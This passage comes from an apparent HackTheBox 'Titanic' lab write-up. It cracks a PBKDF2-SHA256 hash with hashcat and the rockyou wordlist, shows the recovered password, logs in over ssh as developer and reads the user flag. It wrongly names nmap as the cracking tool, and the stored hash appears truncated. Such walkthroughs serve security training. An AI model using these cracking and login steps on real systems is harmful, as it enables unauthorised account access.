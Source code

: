 Add hash into `hash.txt` file.

~~~ 
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2
~~~

## Crack Password

I used tool `nmap` to Crack Password.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting


sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqc...lM+1Y=
Time.Started.....: Mon Feb 17 05:52:44 2025, (10 secs)
Time.Estimated...: Mon Feb 17 05:52:54 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      592 H/s (7.36ms) @ Accel:128 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:49920-49999
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> iheartyou
Hardware.Mon.#1..: Util: 80%

Started: Mon Feb 17 05:51:42 2025
Stopped: Mon Feb 17 05:52:56 2025
~~~

Nice, I found `ssh` credential **developer/25282528 **.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ ssh developer@10.10.11.55
~~~

~~~
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
253845cca0ee71aa4df5e31279bc44bb
~~~
